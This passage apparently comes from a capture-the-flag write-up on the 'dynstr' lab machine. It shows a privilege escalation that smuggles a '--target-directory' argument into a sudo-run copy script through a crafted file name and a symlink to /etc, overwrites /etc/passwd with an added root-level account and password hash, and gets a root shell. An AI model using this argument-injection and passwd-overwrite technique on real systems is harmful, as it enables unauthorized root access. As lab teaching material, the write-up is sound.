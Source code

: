     bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ echo 1000 > .version
    

Third, I need the `--target-directory` flag as a file:

    
    
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ touch -- --target-directory=etc
    

Were I using this flag in a legit `cp` command, I would just say `--target-
directory=/etc`, but since I’m injecting it as a filename, and filenames can’t
include `/`, I’ll have to point to `etc` in the local directory.

The forth file is a simlink from `./etc` to `/etc`:

    
    
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ ln -s /etc
    

That leaves the directory like:

    
    
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ ls -la
    total 16
    drwx------  2 bindmgr bindmgr 4096 Jun 13 23:29  .
    drwxrwxrwt 17 root    root    4096 Jun 13 23:27  ..
    lrwxrwxrwx  1 bindmgr bindmgr    4 Jun 13 23:29  etc -> /etc
    -rw-r--r--  1 bindmgr bindmgr 1698 Jun 13 23:28  passwd
    -rw-rw-r--  1 bindmgr bindmgr    0 Jun 13 23:29 '--target-directory=etc'
    -rw-rw-r--  1 bindmgr bindmgr    5 Jun 13 23:29  .version
    

Now I’ll run the script:

    
    
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ sudo bindmgr.sh 
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.Fk4IdAaCre.
    [+] Creating /etc/bind/named.conf.bindmgr file.
    [+] Staging files to /etc/bind/named.bindmgr.
    cp: -r not specified; omitting directory 'etc'
    cp: -r not specified; omitting directory '/etc/bind/named.bindmgr/'
    [+] Checking staged configuration.
    [-] ERROR: The generated configuration is not valid. Please fix following errors: 
        /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/etc: file not found
    

The user is now in `/etc/passwd`:

    
    
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ tail -1 /etc/passwd
    oxdf:$1$KLTiIosS$EcdrRFwOKrCmloQFSZ2zn1:0:0:pwned:/root:/bin/bash
    

Running `su` and entering the password returns a root shell:

    
    
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ su - oxdf
    Password: 
    root@dynstr:~# 
    